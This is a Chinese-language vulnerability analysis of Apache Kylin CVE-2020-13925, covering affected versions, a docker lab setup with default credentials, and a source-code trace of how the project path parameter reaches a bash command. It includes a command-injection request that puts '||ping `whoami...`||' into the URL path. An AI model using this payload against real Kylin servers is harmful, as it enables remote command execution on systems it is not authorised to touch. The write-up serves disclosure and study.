

Apache Kylin DiagnosisController.java 命令注入漏洞 CVE-2020-13925¶
漏洞描述¶
6月，京东安全的蓝军团队发现了一个 apache kylin 远程命令执行严重漏洞（ CVE-2020-13925）。黑客可以利用这个漏洞，登录任何管理员账号和密码默认未修改的账号，获得管理员权限。由于Apache Kylin被广泛应用于企业的大数据分析平台，因此该漏洞将对企业核心数据具有较大的危害，存在数据泄露风险，建议用户尽快升级软件至安全版本。
漏洞影响¶
Apache Kylin 2.3.0 ~ 2.3.2
Apache Kylin 2.4.0 ~ 2.4.1
Apache Kylin 2.5.0 ~ 2.5.2
Apache Kylin 2.6.0 ~ 2.6.5
Apache Kylin 3.0.0-alpha
环境搭建¶
docker pull apachekylin/apache-kylin-standalone:3.0.1
docker run -d \
-m 8G \
-p 7070:7070 \
-p 8088:8088 \
-p 50070:50070 \
-p 8032:8032 \
-p 8042:8042 \
-p 16010:16010 \
apachekylin/apache-kylin-standalone:3.0.1
打开后使用默认账号密码admin/KYLIN登录，出现初始界面即为成功

漏洞复现¶
出现漏洞的代码文件在server-base/src/main/java/org/apache/kylin/rest/controller/DiagnosisController.java
/**
* Get diagnosis information for project
*/
@RequestMapping(value = "/project/{project}/download", method = { RequestMethod.GET }, produces = {
"application/json" })
@ResponseBody
public void dumpProjectDiagnosisInfo(@PathVariable String project, final HttpServletRequest request,
final HttpServletResponse response) {
try (AutoDeleteDirectory diagDir = new AutoDeleteDirectory("diag_project", "")) {
String filePath = dgService.dumpProjectDiagnosisInfo(project, diagDir.getFile());
setDownloadResponse(filePath, response);
} catch (IOException e) {
throw new InternalErrorException("Failed to dump project diagnosis info. " + e.getMessage(), e);
}
}
这里可以看到{project}参数是用户可控的变量，向下跟进dumpProjectDiagnosisInfo函数
public String dumpProjectDiagnosisInfo(String project, File exportPath) throws IOException {
aclEvaluate.checkProjectOperationPermission(project);
String[] args = { project, exportPath.getAbsolutePath() };
runDiagnosisCLI(args);
return getDiagnosisPackageName(exportPath);
}
首先通过checkProjectOperationPermission函数来检查该project是否许可，然后构建一个args的字符串数组，看一下checkProjectOperationPermission函数
public void checkProjectOperationPermission(String projectName) {
ProjectInstance projectInstance = getProjectInstance(projectName);
aclUtil.hasProjectOperationPermission(projectInstance);
}
这里传入projectName，然后通过getProjectInstance来获取项目实例,跟进getProjectInstance
private ProjectInstance getProjectInstance(String projectName) {
return ProjectManager.getInstance(KylinConfig.getInstanceFromEnv()).getProject(projectName);
}
因为 projectName 会被我们替换掉，所以不会获得一个正确的projectName,则会返回一个Null，查看下hasProjectOperationPermission函数
@PreAuthorize(Constant.ACCESS_HAS_ROLE_ADMIN +
" or hasPermission(#project, 'ADMINISTRATION')" +
" or hasPermission(#project, 'MANAGEMENT')" +
" or hasPermission(#project, 'OPERATION')")
public boolean hasProjectOperationPermission(ProjectInstance project) {
return true;
}
这里并没有对projectName进行检验，只对用户身份进行了检验，当为ADMIN、ADMINISTRATION、MANAGEMENT、OPERATION等权限，该值默认返回为true，回到dumpProjectDiagnosisInfo函数，向下继续跟进runDiagnosisCLI函数

private void runDiagnosisCLI(String[] args) throws IOException {
Message msg = MsgPicker.getMsg();
File cwd = new File("");
logger.debug("Current path: " + cwd.getAbsolutePath());
logger.debug("DiagnosisInfoCLI args: " + Arrays.toString(args));
File script = new File(KylinConfig.getKylinHome() + File.separator + "bin", "diag.sh");
if (!script.exists()) {
throw new BadRequestException(
String.format(Locale.ROOT, msg.getDIAG_NOT_FOUND(), script.getAbsolutePath()));
}
String diagCmd = script.getAbsolutePath() + " " + StringUtils.join(args, " ");
CliCommandExecutor executor = KylinConfig.getInstanceFromEnv().getCliCommandExecutor();
Pair<Integer, String> cmdOutput = executor.execute(diagCmd);
if (cmdOutput.getFirst() != 0) {
throw new BadRequestException(msg.getGENERATE_DIAG_PACKAGE_FAIL());
}
}
注意看这几行代码
String diagCmd = script.getAbsolutePath() + " " + StringUtils.join(args, " ");
CliCommandExecutor executor = KylinConfig.getInstanceFromEnv().getCliCommandExecutor();
Pair<Integer, String> cmdOutput = executor.execute(diagCmd);
与 Apache Kylin 命令注入漏洞CVE-2020-1956类似，同样也是经过execute函数，而digCmd同样也是经过了命令拼接
private Pair<Integer, String> runRemoteCommand(String command, Logger logAppender) throws IOException {
SSHClient ssh = new SSHClient(remoteHost, port, remoteUser, remotePwd);
SSHClientOutput sshOutput;
try {
sshOutput = ssh.execCommand(command, remoteTimeoutSeconds, logAppender);
int exitCode = sshOutput.getExitCode();
String output = sshOutput.getText();
return Pair.newPair(exitCode, output);
} catch (IOException e) {
throw e;
} catch (Exception e) {
throw new IOException(e.getMessage(), e);
}
}
private Pair<Integer, String> runNativeCommand(String command, Logger logAppender) throws IOException {
String[] cmd = new String[3];
String osName = System.getProperty("os.name");
if (osName.startsWith("Windows")) {
cmd[0] = "cmd.exe";
cmd[1] = "/C";
} else {
cmd[0] = "/bin/bash";
cmd[1] = "-c";
}
cmd[2] = command;
ProcessBuilder builder = new ProcessBuilder(cmd);
builder.redirectErrorStream(true);
Process proc = builder.start();
BufferedReader reader = new BufferedReader(
new InputStreamReader(proc.getInputStream(), StandardCharsets.UTF_8));
String line;
StringBuilder result = new StringBuilder();
while ((line = reader.readLine()) != null && !Thread.currentThread().isInterrupted()) {
result.append(line).append('\n');
if (logAppender != null) {
logAppender.log(line);
}
}
if (Thread.interrupted()) {
logger.info("CliCommandExecutor is interruppted by other, kill the sub process: " + command);
proc.destroy();
try {
Thread.sleep(1000);
} catch (InterruptedException e) {
// do nothing
}
return Pair.newPair(1, "Killed");
}
try {
int exitCode = proc.waitFor();
return Pair.newPair(exitCode, result.toString());
} catch (InterruptedException e) {
Thread.currentThread().interrupt();
throw new IOException(e);
}
}
}
这样我们就可以通过控制{project} 请求就可以造成命令注入
/kylin/api/diag/project/{project}/download
/kylin/api/diag/project/||ping `whoami.111.111.111`||/download
拼接后则出现
/home/admin/apache-kylin-3.0.1-bin-hbase1x/bin/diag.sh {project} {diagDir}
这里通过报错语句可以回显命令验证漏洞存在
throw new InternalErrorException("Failed to dump project diagnosis info. " + e.getMessage(), e);
在修复中，过滤了||,&&等符号，造成无法命令注入
漏洞通报中共两个利用点
/kylin/api/diag/project/{project}/download
/kylin/api/diag/job/{jobId}/download
查看函数发现利用方式相同，直接利用job会失败，因为 {project}默认有一个learn_kylin，而job没有